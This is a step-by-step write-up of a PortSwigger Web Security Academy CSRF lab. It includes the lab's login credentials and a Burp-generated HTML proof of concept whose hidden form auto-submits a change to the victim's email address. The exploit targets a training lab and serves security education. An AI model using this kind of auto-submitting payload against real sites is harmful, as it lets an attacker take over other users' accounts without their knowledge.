

[Source](https://portswigger.net/web-security/csrf/lab-no-defenses)
## Task
The email address change functionality in this lab is vulnerable to CSRF.
To solve the task, we need to create HTML code that changes the email address of the user viewing the page using a CSRF attack and upload this code to our exploit server.
We can log in to our account using the following credentials: `wiener:peter`.
## Solution
Go to the task site


Log in to your account


Enter the email you want to change to and intercept the request in `Burp Suite`. Then right-click > Engagement tools > Generate CSRF PoC`. Click `Copy HTML`.




After that, go to the site, click the `Go to exploit server` button and paste the vulnerable HTML code into `Body`. Click `Store`
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00cf04a2eee5bf12e0fe00ba0074.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mailforspamwork&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


Let's check if the exploit works. To do this, click the `View exploit` button and intercept the request in `Burp Suite`.


Then click `Deliver exploit to victim` and the problem is solved


